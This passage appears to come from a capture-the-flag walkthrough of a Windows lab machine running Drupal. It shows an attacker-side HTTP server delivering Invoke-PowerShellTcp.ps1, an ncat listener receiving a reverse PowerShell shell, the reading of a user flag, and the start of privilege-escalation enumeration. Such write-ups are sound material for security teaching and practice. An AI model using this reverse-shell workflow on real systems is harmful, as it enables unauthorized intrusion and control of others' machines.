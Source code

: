 ```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [02/Sep/2020 14:26:20] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```
$ rlwrap ncat -nlvp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49320.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```

At this point, I had a reverse netcat powershell session and I grabbed the user flag:

```
PS C:\users\dimitris> gc C:\users\dimitris\Desktop\user.txt
ba22fde1932d06eb76a163d312f921a2
```

## Privilege Escalation

One of the first things I check for in privilege escalation on windows is to see if the current user I compromised is part of any interesting groups with any special permissions.

```
PS C:\users\dimitris> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ========
nt authority\iusr S-1-5-17


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Group used for deny only
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------
```